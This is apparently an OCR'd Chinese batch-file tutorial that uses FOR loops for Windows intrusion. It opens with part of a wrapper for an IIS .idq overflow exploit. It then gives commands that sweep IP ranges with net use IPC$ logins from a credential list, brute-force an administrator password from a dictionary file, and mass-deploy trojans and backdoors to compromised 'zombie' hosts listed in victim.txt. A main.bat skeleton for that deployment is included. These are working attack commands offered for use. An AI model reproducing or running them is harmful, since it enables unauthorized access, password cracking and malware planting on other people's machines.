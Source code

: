 if %d%==3 set a=4
if %d%==2 set a=3
if %d%==1 set a=2
if %d%==0 set a=1
goto no /*附值完成跳转no段执行
:file /*以下都是出错后的帮助提示
echo IIsidq.exe没有发现!将该文件和本文件放在同一目录!
goto exit
:error
echo 错误!目标ip不可识别!请使用下面的格式连接!
echo idq [目标IP]
goto exit
:error1
echo 连接没有成功!可能目标机器已经修补了该漏洞或者网络故障所至!
echo 请按照下面的格式手工尝试!
echo iisidq [目标类型] [目标IP] [目标端口] [连接方式] [溢出埠]
echo telnet [目标ip] [溢出埠]
:exit /*整个程序的出口
这个批处理采用的整体循环掌握好计数器部分就掌握了这个批处理。

例三
for /l %%a in (0,1,255) do for /l %%b in (0,1,255) do for /l %%c in (1,1,254) do for /f “tokens=1,2*” %%e in (userpass.txt) do net use \%1.%%a.%%b.%%c\ipc$ %%e /u:%%f
上面的命令为1条命令。大家可以看出该命令使用了4个FOR来套用的。用法为：C:>TEST.BAT 218 当输入218回车后该命令会由第1个for取初始值0为%%a然后继续取第2个for的初始值0为%%b继续取第3个for的初始值1为%%c最后一个for是将userpass.txt中的第一段字符作为密码%%e第二段字符作为用户名%%f最后执行命令 (这里我把上面的值都带进去，设密码为123 用户名为 abc)
net usr \218.0.0.1\ipc$ 123 /u:abc

sample2：

利用For命令来实现对一台目标Win2k主机的暴力密码破解。
我们用net use \ip\ipc$ “password” /u:"administrator"来尝试这和目标主机进行连接，当成功时记下密码。
最主要的命令是一条：for /f i% in (dict.txt) do net use \ip\ipc$ “i%” /u:“administrator”
用i%来表示admin的密码，在dict.txt中这个取i%的值用net use 命令来连接。然后将程序运行结果传递给find命令－－
for /f i%% in (dict.txt) do net use \ip\ipc$ “i%%” /u:“administrator”|find “:命令成功完成”>>D:\ok.txt ，这样就ko了。

sample3：

你有没有过手里有大量肉鸡等着你去种后门＋木马呢？，当数量特别多的时候，原本很开心的一件事都会变得很郁闷：）。文章开头就谈到使用批处理文件，可以简化日常或重复性任务。那么如何实现呢？呵呵，看下去你就会明白了。

主要命令也只有一条：（在批处理文件中使用 FOR 命令时，指定变量使用 %%variable）
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call door.bat %%i %%j %%k
tokens的用法请参见上面的sample1，在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数%i %j %k。
而cultivate.bat无非就是用net use命令来建立IPC$连接，并copy木马＋后门到victim，然后用返回码（If errorlever =）来筛选成功种植后门的主机，并echo出来，或者echo到指定的檔。
delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据%%i %%j %%k表示的对象来排列，一般就是 ip password username。
代码雏形：-+

--------------- cut here then save as a batchfile(I call it main.bat ) --------------------
@echo off
@if “%1”=="" goto usage
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call IPChack.bat %%i %%j %%k
@goto end
:usage
@echo run this batch in dos modle.or just double-click it.
:end
--------------- cut here then save as a batchfile(I call it main.bat ) --------------------
